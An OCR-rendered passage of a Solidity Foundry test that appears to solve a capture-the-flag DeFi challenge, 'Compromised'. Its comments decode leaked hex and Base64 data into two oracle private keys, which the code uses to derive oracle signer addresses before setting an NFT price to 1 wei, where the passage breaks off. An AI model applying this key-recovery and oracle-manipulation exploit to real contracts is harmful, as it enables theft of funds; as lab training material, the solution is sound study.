 ```solidity
    }

    function setUp() public {
        startHoax(deployer);

        // Initialize balance of the trusted source addresses
        for (uint256 i = 0; i < sources.length; i++) {
            vm.deal(sources[i], TRUSTED_SOURCE_INITIAL_ETH_BALANCE);
        }

        // Player starts with limited balance
        vm.deal(player, PLAYER_INITIAL_ETH_BALANCE);

        // Deploy the oracle and setup the trusted sources with initial prices
        oracle = (new TrustfulOracleInitializer(sources, symbols, prices)).oracle();

        // Deploy the exchange and get an instance to the associated ERC721 token
        exchange = new Exchange{value: EXCHANGE_INITIAL_ETH_BALANCE}(address(oracle));
        nft = exchange.token();

        vm.stopPrank();
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_assertInitialState() public view {
        for (uint256 i = 0; i < sources.length; i++) {
            assertEq(sources[i].balance, TRUSTED_SOURCE_INITIAL_ETH_BALANCE);
        }
        assertEq(player.balance, PLAYER_INITIAL_ETH_BALANCE);
        assertEq(nft.owner(), address(0)); // ownership renounced
        assertEq(nft.rolesOf(address(exchange)), nft.MINTER_ROLE());
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_compromised() public checkSolved {
        // 4d4867335a444531596d4a684d6a5a6a4e54497a4e6a677a596d5a6a4d32526a4e324e6b597a566b4d574934595449334e4451304e4463314f54646a5a6a526b595445334d44566a5a6a5a6a4f546b7a4d44597a4e7a5130
        // 4d4867324f474a6b4d444977595751784f445a694e6a5133595459354d574d325954566a4d474d784e5449355a6a49785a574e6b4d446c6b59324d304e5449304d5451774d6d466a4e6a426959544d334e324d304d545535

        // hex data --> ASCII code
        // MHg3ZDE1YmJhMjZjNTIzNjgzYmZjM2RjN2NkYzVkMWI4YTI3NDQ0NDc1OTdjZjRkYTE3MDVjZjZjOTkzMDYzNzQ0
        // MHg2OGJkMDIwYWQxODZiNjQ3YTY5MWM2YTVjMGMxNTI5ZjIxZWNkMDlkY2M0NTI0MTQwMmFjNjBiYTM3N2M0MTU5

        // Base64 strings --> UTF-8 text
        // 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744
        // 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159

        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint("ETH balance in the exchange contract", address(exchange).balance, 18);
        emit log_named_decimal_uint("ETH balance in the recovery address", recovery.balance, 18);

        uint256 pk1 = 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744;
        uint256 pk2 = 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159;
        address oracle1 = vm.addr(pk1);
        address oracle2 = vm.addr(pk2);

        // set nft price to 1 wei
```